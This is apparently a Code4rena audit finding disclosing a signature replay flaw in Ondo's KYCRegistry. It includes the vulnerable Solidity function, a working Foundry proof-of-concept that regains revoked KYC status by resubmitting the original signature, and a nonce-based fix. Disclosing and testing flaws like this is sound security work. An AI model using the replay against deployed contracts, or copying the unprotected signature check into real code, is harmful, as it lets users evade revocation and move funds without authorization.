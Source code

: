 # Original link
https://github.com/code-423n4/2023-01-ondo-findings/issues/187
# Lines of code

https://github.com/code-423n4/2023-01-ondo/blob/main/contracts/cash/kyc/KYCRegistry.sol#L79-L112


# Vulnerability details

## Impact
The KYCRegistry contract uses signatures to grant KYC status to the users using the `addKYCAddressViaSignature` function.

However this function does not prevent replaying of signatures in the case where KYC status was revoked of a user. 

```solidity
  function addKYCAddressViaSignature( ... ) external {
    require(v == 27 || v == 28, "KYCRegistry: invalid v value in signature");
    require(
      !kycState[kycRequirementGroup][user],
      "KYCRegistry: user already verified"
    );
    require(block.timestamp <= deadline, "KYCRegistry: signature expired");
    bytes32 structHash = keccak256(
      abi.encode(_APPROVAL_TYPEHASH, kycRequirementGroup, user, deadline)
    );

    bytes32 expectedMessage = _hashTypedDataV4(structHash);

    address signer = ECDSA.recover(expectedMessage, v, r, s);
    _checkRole(kycGroupRoles[kycRequirementGroup], signer);

    kycState[kycRequirementGroup][user] = true;
    // ...
  }
```

This function could be exploited in the case when these conditions are true:
- KYC status was granted to user using a signature with validity upto `deadline`.
- Before the `deadline` was passed, the KYC status of user was revoke using the `removeKYCAddresses` function.

In the above mentioned conditions the malicious user can submit the original signature again to the `addKYCAddressViaSignature` function which will forcefully grant the KYC status to malicious user again.

It should also be noted that due to this bug until the deadline has been passed the privileged accounts cannot revoke the KYC status of a KYC granted user. This can result in unwanted moving of funds by the user in/out of Ondo protocol.

## Proof of Concept
Test file created `BugTest.t.sol` and was run by `forge test --mp ./forge-tests/BugTest1.t.sol `

```solidity
pragma solidity 0.8.16;

import "forge-std/Test.sol";
import "forge-std/Vm.sol";

import "contracts/cash/kyc/KYCRegistry.sol";

contract SanctionsList {
    function isSanctioned(address) external pure returns (bool) {
        return false;
    }
}
struct KYCApproval {
    uint256 kycRequirementGroup;
    address user;
    uint256 deadline;
}

contract BugTest1 is Test {
    bytes32 APPROVAL_TYPEHASH;
    bytes32 DOMAIN_SEPARATOR;
    KYCRegistry registry;

    address admin;
    address kycAgent;
    uint256 kycAgentPrivateKey = 0xB0B;
    address attacker;

    function setUp() public {
        admin = address(0xad);
        attacker = address(0xbabe);
        kycAgent = vm.addr(kycAgentPrivateKey);
        registry = new KYCRegistry(admin, address(new SanctionsList()));
        APPROVAL_TYPEHASH = registry._APPROVAL_TYPEHASH();
        DOMAIN_SEPARATOR = registry.DOMAIN_SEPARATOR();
    }

    function test_bug() public {
        uint256 kycGroup = 1;
        bytes32 kycGroupRole = "0x01";
        vm.prank(admin);
        registry.assignRoletoKYCGroup(kycGroup, kycGroupRole);
        vm.prank(admin);
        registry.grantRole(kycGroupRole, kycAgent);
        vm.stopPrank();

        uint256 deadline = block.timestamp + 1 days;
        KYCApproval memory approval = KYCApproval({
            kycRequirementGroup: kycGroup,
            user: attacker,
            deadline: deadline
        });
        bytes32 digest = getTypedDataHash(approval);
        // KYC approval got signed with validity of 1 day
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(kycAgentPrivateKey, digest);

        assertEq(registry.kycState(kycGroup, attacker), false);
        assertEq(registry.getKYCStatus(kycGroup, attacker), false);

        vm.prank(attacker);
        registry.addKYCAddressViaSignature(kycGroup, attacker, deadline, v, r, s);

        assertEq(registry.kycState(kycGroup, attacker), true);
        assertEq(registry.getKYCStatus(kycGroup, attacker), true);

        address[] memory toBeRemovedAddrs = new address[](1);
        toBeRemovedAddrs[0] = attacker;
        // KYC approval was removed
        vm.prank(kycAgent);
        registry.removeKYCAddresses(kycGroup, toBeRemovedAddrs);
        vm.stopPrank();
        assertEq(registry.getKYCStatus(kycGroup, attacker), false);

        // KYC approval was granted again by replaying the original signature
        vm.prank(attacker);
        registry.addKYCAddressViaSignature(kycGroup, attacker, deadline, v, r, s);
        assertEq(registry.kycState(kycGroup, attacker), true);
        assertEq(registry.getKYCStatus(kycGroup, attacker), true);
    }

    function getStructHash(KYCApproval memory _approval) internal view returns (bytes32) {
        return keccak256(abi.encode(APPROVAL_TYPEHASH, _approval.kycRequirementGroup, _approval.user, _approval.deadline));
    }

    function getTypedDataHash(KYCApproval memory _approval) public view returns (bytes32) {
        return keccak256(abi.encodePacked("\x19\x01", DOMAIN_SEPARATOR, getStructHash(_approval)));
    }
}
```

## Tools Used
Manual review

## Recommended Mitigation Steps
A nonce mapping for message signers can be maintained the value of which can be incremented for every successful signature validation.
```solidity
mapping(address => uint) private nonces;
``` 
A more detailed usage example can be found in OpenZeppelin's EIP-2612 implementation.
https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Permit.sol#L90